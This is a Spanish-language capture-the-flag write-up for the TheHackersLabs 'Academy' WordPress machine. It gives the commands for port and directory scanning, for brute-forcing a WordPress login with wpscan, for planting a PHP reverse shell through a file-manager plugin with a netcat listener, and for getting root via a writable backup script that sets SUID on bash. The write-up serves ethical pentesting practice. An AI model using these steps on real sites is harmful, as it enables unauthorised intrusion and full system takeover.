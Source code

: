 # Lab de Pentesting: Explotación y escalada de privilegios en máquina Academy (WordPress)

Este repositorio documenta paso a paso cómo comprometer una máquina con **WordPress** mediante enumeración, fuerza bruta de credenciales y la explotación de un plugin vulnerable, logrando finalmente escalar privilegios hasta obtener acceso root.

---

## Resumen

El objetivo fue identificar servicios expuestos, reconocer la tecnología del sitio, obtener acceso al panel de administración de WordPress mediante credenciales débiles, cargar una webshell para ejecutar comandos y, finalmente, escalar privilegios abusando de permisos de escritura en un script de respaldo.

---

## Herramientas utilizadas

- `ping`
- `nmap`
- `gobuster`
- `nano`
- `wpscan`
- `netcat`
- `chmod`
- `bash`

---

## Pasos realizados

### 1. Verificar conectividad con ping

```bash
ping -c 1 192.168.173.130
```

![1](screenshots/1.PNG)

Se comprobó que la máquina objetivo está activa.

---

### 2. Escaneo de puertos con Nmap

```bash
nmap -sS -sC -sV --min-rate 5000 -p- -n -vvv 192.168.173.130 --open -Pn -oN scan.txt
```

![2](screenshots/2.PNG)

Se identificó un servicio HTTP en el puerto **80**.

---

### 3. Enumeración de directorios con Gobuster

```bash
gobuster dir -u http://192.168.173.130 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,txt,html,py
```

![3](screenshots/3.PNG)

Se descubrió la presencia de un **WordPress**.

---

### 4. Resolución del dominio

![4](screenshots/4.PNG)

Al inspeccionar el código fuente (`CTRL+U`) se encontró la referencia al dominio:

![5](screenshots/5.PNG)

```
academy.thl
```

Se añadió al archivo `/etc/hosts`:

```bash
nano /etc/hosts
192.168.173.130 academy.thl
```

![6](screenshots/6.PNG)

Con esto el dominio resolvió correctamente.

![7](screenshots/7.PNG)

---

### 5. Enumeración de usuarios y plugins con WPScan

```bash
wpscan --url http://192.168.173.130/wordpress -e u,p --plugins-detection aggressive
```

![8](screenshots/8.PNG)

Se identificó al usuario:

- `dylan`

Posteriormente, con fuerza bruta:

```bash
wpscan --url http://192.168.173.130/wordpress -U dylan -P /usr/share/wordlists/metasploit/unix_passwords.txt
```

![9](screenshots/9.PNG)

Se encontraron las credenciales:

- **Usuario:** dylan  
- **Contraseña:** password1

---

### 6. Acceso al panel de WordPress

![10](screenshots/10.PNG)
![11](screenshots/11.PNG)

Se ingresó con el usuario **dylan** y se aprovechó el plugin **Big File Manager** para modificar `index.php`.  
Se reemplazó su contenido con un **PHP reverse shell** (Pentestmonkey), configurando la IP de la máquina atacante y el puerto 1234.

![12](screenshots/12.PNG)

---

### 7. Ejecución del reverse shell

En la máquina atacante:

```bash
nc -lvnp 1234
```

![13](screenshots/13.PNG)

En el navegador:

```
http://academy.thl/wordpress/
```

![14](screenshots/14.PNG)

Se obtuvo acceso remoto.  

![15](screenshots/15.PNG)


Se mejoró la sesión con:

```bash
script /dev/null -c bash
```

![16](screenshots/16.PNG)

---

### 8. Escalada de privilegios

Se observó que había permisos de escritura, se miró que contenia ese directorio. Se creó un archivo de respaldo malicioso:

![17](screenshots/17.PNG)
![18](screenshots/18.PNG)

```bash
echo 'chmod u+s /bin/bash' >> backup.sh
chmod u+x backup.sh
```

![19](screenshots/19.PNG)

Después de ejecutarse, se obtuvo una bash con privilegios:

```bash
bash -p
```

![20](screenshots/20.PNG)

Verificación:

```bash
whoami
root
```

Acceso **root** confirmado.

---

## Resultados finales

- Acceso al panel de administración de WordPress mediante credenciales débiles.
- Ejecución de un **PHP reverse shell** a través de un plugin vulnerable.
- Escalada de privilegios explotando permisos de escritura en `backup.sh`.
- Acceso root conseguido y obtención de las flags en [TheHackersLabs](https://thehackerslabs.com/).

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético.  
No debe usarse en sistemas sin autorización.
